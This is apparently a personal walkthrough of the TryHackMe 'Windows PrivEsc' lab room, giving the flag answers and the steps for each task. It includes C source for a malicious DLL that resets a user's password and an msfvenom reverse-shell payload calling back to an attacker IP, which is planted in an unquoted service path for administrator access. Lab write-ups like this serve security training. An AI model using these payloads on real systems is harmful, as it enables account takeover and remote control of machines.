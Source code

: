 ```yaml
---
description: 'This is my walkthrough for the TryHackMe Room: Windows PrivEsc.'
---
```


# Windows PrivEsc

This room can be found [here](https://tryhackme.com/room/winprivesc). This room covers a few methods of escalating from a normal user to the root user on a system.

## Task 2

### Question 2: List users on the target system. One of them resembles a flag.

`THM-17213` - Running `net users` will give us our answer

![](<../../../.gitbook/assets/image (378).png>)

### Question 3: What is the OS version of the target machine?

`10.0.17763 N/A Build 17763` - Running `systeminfo` will give us our answer

![](<../../../.gitbook/assets/image (49).png>)

### Question 4: When was security update KB4562562 installed?

`6/10/2020` - Following the command the room gives, `wmic qfe get Caption,Description,HotFixID,InstalledOn` but piping in the string we want to find will make this MUCH easier. `wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr "KB4562562"`

![](<../../../.gitbook/assets/image (236).png>)

### Question 5: What is the state of Windows Defender?

`STOPPED` - Running `sc query windefend` will give us our answer

![](<../../../.gitbook/assets/image (284).png>)

## Task 4

### Question 1: What version of a Fitbit application can you see installed?

`2.0.1.6782` - Following the example command the room gives us but piping to search will help.

`wmic product get name,version,vendor | findstr "Fitbit"`

### Question 2: What kind of vulnerability seems to affect the Fitbit application?

`Unquoted Service Path` - Having to do some minor research on this one, when going to Exploit.db we can search for "Fitbit" and find [this link](https://www.exploit-db.com/exploits/40482) which give us our answer.

### Question 3: What version of FoxitReader is installed on the target system?

`9.0.1.1049` - I admittedly had to go through the explorer via GUI to find this.

![](<../../../.gitbook/assets/image (388).png>)

## Task 5

First we are asked to replicate the attacks the room explained. So it asks us to create to malicious DLL file, and use it to modify the password for the user Jack so we can login as him.

```
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net user Jack Passwors123");
        ExitProcess(0);
    }
    return TRUE;
}
```

We add the above code into a .c file then we can compile it.

`x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll`

![](<../../../.gitbook/assets/image (68) (1).png>)

Now we get the file onto the machine via whatever means we can. I'll be adding it by using a simple python web server. `python3 -m http.server` onmy attacker machine.

![](<../../../.gitbook/assets/image (111).png>)

Now we stop and start the DLL service with: `sc stop dllsvc` followed by `sc start dllsvc`

![](<../../../.gitbook/assets/image (118).png>)

### Question 3: Login with Jack's account (the new password you have set). What is the content of the flagdll.txt file?

`THM-8377492093` - Now that we have changed Jacks password, we can switch to his user via commandline or remote desktop in. I went with commandline and just opened up powershell as jack.

![](<../../../.gitbook/assets/image (169).png>)

Now we find the file: `Get-ChildItem -Path C:\ -Recurse -File flagdll.txt -ErrorAction SilentlyContinue`

![](<../../../.gitbook/assets/image (385).png>)

Then we get the file contents: `Get-Content 'C:\Users\jack\Documents\flagdll.txt'`

![](<../../../.gitbook/assets/image (186).png>)

## Task 6

### Question 1: What is the full unquoted path of unquotedsvc

`C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe` - So as the room suggests we can run `wmic service get name,displayname,pathname,startmode` but we can pip ewith `findstr` to make our search easier. `wmic service get name,displayname,pathname,startmode | findstr "unquotedsvc"`

![](<../../../.gitbook/assets/image (387).png>)

### Question 2: Go through subfolders in the unquotedsvc binary path. Which folder does the user have read and write privileges on?

`C:\Program Files\Unquoted Path Service\` - As the room tells us, accesschk64.exe is on the desktop, so running .\accesschk64.exe /accepteula -uwdq "C:\Program Files\\`Unquoted Path Service\"` We see our answer. We can write into the base directory of that.

![](<../../../.gitbook/assets/image (217).png>)

### Question 3: What would be the name of the executable you would place in that folder?

`common.exe` - I had to look this up as I found no clear indicator as why this file had to be named this

### Question 4: Obtain Administrator privileges on the target machine. What is the content of the flagUSP.txt file?

`THM-636729273483` - The room gives us an example payload to create a file to upload to the system. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.68.77 LPORT=4444 -f exe > common.exe`

![](<../../../.gitbook/assets/image (176).png>)

Now we start metasploit and get our listener ready `msfconsole -q`

![](<../../../.gitbook/assets/image (181).png>)

We can follow the rooms example just be sure to change the IP and PORT of YOUR machine you used when making the payload.

We get the file onto the target in whatever way we can, I'll again be using python3 webserver

![](<../../../.gitbook/assets/image (20) (1).png>)

With our file now on the target, we can start the service `sc start unquotedsvc`

![](<../../../.gitbook/assets/image (182).png>)

We should now have our shell

![](<../../../.gitbook/assets/image (131).png>)

From here there are multiple ways we can find our file and flag but for the sake of brevity we will just stick with windows and methods we have already used.

We'll move to powershell with `powershell.exe`, then find the file we want, `Get-ChildItem -Path C:\ -Recurse -File flagUSP.txt -ErrorAction SilentlyContinue`,  then get the contents of the file, `Get-Content 'C:\Users\Cora\Documents\flagUSP.txt'`

![](<../../../.gitbook/assets/image (360).png>)

![](<../../../.gitbook/assets/image (352).png>)
